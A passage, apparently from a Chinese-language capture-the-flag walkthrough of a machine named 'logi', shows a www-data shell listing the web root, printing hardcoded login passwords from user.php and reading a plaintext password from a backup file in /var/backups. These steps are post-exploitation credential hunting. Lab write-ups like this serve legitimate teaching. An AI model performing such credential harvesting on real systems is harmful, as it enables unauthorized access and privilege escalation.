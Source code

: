 ```bash
```

www-data 用户需要密码执行 sudo。

## 文件系统探索

查看 web 目录和系统文件：

```bash
www-data@logi:/var/www/html$ ls -al
total 1112
drwxr-xr-x 2 root root   4096 Sep 29 07:24 .
drwxr-xr-x 3 root root   4096 Apr  4 23:20 ..
-rw-r--r-- 1 root root    147 Sep 28 11:24 .htaccess
-rw-r--r-- 1 root root  16384 Sep 28 11:07 .user.php.swp
-rw-r--r-- 1 root root   5581 Sep 28 11:33 admin.php
...
-rw-r--r-- 1 root root   3281 Sep 29 03:32 index.html
-rw-r--r-- 1 root root     41 Sep 28 10:27 karsakarsa369.php
-rw-r--r-- 1 root root   7608 Sep 29 07:24 user.php
```

查看 user.php 文件获取更多信息：

```bash
www-data@logi:/var/www/html$ head -10 user.php
<?php
// user.php — 普通用户登录页面（不会在页面显示凭据或 token）
// 已增加无关占位内容与退出登录功能

header('Content-Type: text/html; charset=utf-8');

// ===== 用户库（仅服务器端示例） =====
$users = [
    'ame'   => ['password' => 'jiayouachunyu', 'role' => 'user'],
    'admin' => ['password' => 'supersecret_admin_pw', 'role' => 'admin']
```

查看家目录：

```bash
www-data@logi:/var/www/html$ ls -la /home/
total 12
drwxr-xr-x  3 root root 4096 Sep 28 10:34 .
drwxr-xr-x 18 root root 4096 Sep 28 09:25 ..
drwxr-xr-x  3 ame  ame  4096 Sep 30 05:44 ame
```

发现存在 ame 用户，尝试切换但失败。

## 密码发现

探索 `/var/backups` 目录：

```bash
www-data@logi:/var$ ls backups/
alternatives.tar.0     apt.extended_states.1.gz  apt.extended_states.3.gz  apt.extended_states.5.gz  dpkg.statoverride.0  group.bak    passwd      shadow.bak
apt.extended_states.0  apt.extended_states.2.gz  apt.extended_states.4.gz  dpkg.diversions.0         dpkg.status.0        gshadow.bak  passwd.bak
www-data@logi:/var$ cd backups/
www-data@logi:/var/backups$ cat passwd
xiangwozheyangderen
```

